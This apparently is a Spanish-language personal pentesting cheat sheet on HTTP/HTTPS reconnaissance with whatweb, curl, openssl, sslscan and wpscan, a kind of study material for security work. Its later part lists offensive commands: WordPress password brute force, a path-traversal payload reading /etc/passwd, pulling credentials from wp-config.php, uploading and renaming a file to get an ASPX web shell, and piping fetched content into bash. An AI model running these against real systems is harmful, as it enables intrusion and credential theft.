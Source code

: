 # HTTP ❮❯

Tags: #Web #Puerto #Reconocimiento #Escaneo #CMS #Comandos 

## Codigos de estado 
200 -> OK
301 -> Moved Permanently (Follow Redirect)
401 -> Unauthorized
403 -> Forbidden
404 -> Not Found

Si la versión del servidor HTTP es “**Apache httpd 2.4.46 o HTTP nginx 1.18.0**“, podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión “**httpd 2.4.46 o nginx 1.18.0**” se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería “**Focal**” para Ubuntu 20.04.
Todas estas búsquedas las aplicamos sobre el siguiente dominio:
-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

80 - Este puerto es el que se usa para la navegación web de forma no segura HTTP. 

### Rutas tipicas
**/var/www/html** Ruta tipica de Apache o Nginx
**/opt/blog/server.js** Ruta por default de Node.js
**/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
**/wp-login.php** Es la ruta del panel de autenticacion de WordPress


❯ **Ctrl + u** Para ver el codigo fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el codigo 

❯ **whatweb ❮http://IP❯**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Mirar la jQuery
- Servidor Web
❯ **whatweb ❮http://IP:PORT❯** -> Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
❯ **whatweb \http://❮IP❯ -v**  v=Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas

❯ **curl ❮IP❯ | bash** Lo que hace Curl es obtener un **index.html** del servidor y despues con el bash haremos que nos interprete la data en bash
❯ **wget \http://❮IP❯/❮File❯** Para poder cargar o descargar un archivo especifico desde una IP


# HTTPS ❮❯
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

❯ **openssl s_client -connect ❮IP❯:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443
❯ **sslscan ❮IP❯:8443** Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443













- **/wp-json/wp/v2/users/** Reporta usuarios validos en la pagina de WordPress en formato Json
- **cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, file que se encuentra dentro de la maquina victimas y lo miramos en formato de pagina
- Comando -> **wpscan --url <http://URL/>** Detecta vulnerabilidades, pluggins en un wordPress
- Comando -> **wpscan --url <http://URL/> --enumerate u** Enumeras usuarios que puedan existir en un WordPress
- Comando -> **wpscan --url <http://URL/> -U < USER> -P <Dicc.txt>** Aplicas fuerza bruta, en donde colocas el usuario y en este caso el diccionario de las passwd 
	Tmabien podemos usar **wpseku github security scanner**  o **wordpressscan github**, pero la 'mejor' es wpseku 
- Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template

- /usr/share/davtest/backdoors/**aspx_cmd.aspx**   Ejecutable que al momento de ejecutarse en una pagina Web, nos dara una WebShell

- Comando -> **curl http://< IP> -v** Haremos que nos ejecute un curl para poder ver la cabeceras de la pagina solicitada y su data


- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)
- Comando -> **curl -s -X GET http://< IP>/?p=404** Apuntas a una ruta 404 y haces la peticion
- Comando -> **curl -s -X PUT http://< IP>/file.txt -d @file.txt** Para subir un archivo a una pagina web con un comando a la url que lo indicaremos con el @, este archivo debe tener una extencion especifica y permitida por el webdav. El example.txt en la url es el que debe de tener una extencion permitida.
En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X MOVE -H “Destination:http://< URL>/cmd.aspx” http://< URL>/cmd.txt** Moveremos el archivo que subimos con extension .txt ya que no puede ser interpretado y le aplicaremos un renombramiento colocandole su extrension .aspx y lo haremos con la cabecera destination. Esto no dara una terminal en la web. (s=silence)
